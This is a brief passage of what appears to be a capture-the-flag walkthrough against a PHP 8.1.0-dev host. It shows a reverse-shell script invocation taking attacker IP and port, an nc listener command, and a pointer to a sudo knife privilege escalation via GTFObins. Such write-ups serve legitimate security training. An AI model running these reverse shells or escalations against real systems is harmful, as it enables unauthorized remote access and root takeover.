



Now we can try the next reverse shell “ revshell_php_8.1.0-dev.py” 
```bash
$ python3 revshell_php_8.1.0-dev.py <target URL> <attacker IP> <attacker PORT>
```
To execute this reverse shell we need open a listener termina
nc -lvnp 4444

Checking sudo rights with sudo-l shows that we have permission to execute knife as a root.  



Before digging into this executable, let's ckeck GTFObins (https://gtfobins.github.io/gtfobins/knife/) for a quick privilege escalation.



So we apply this in our shell session:




[Back](README.md)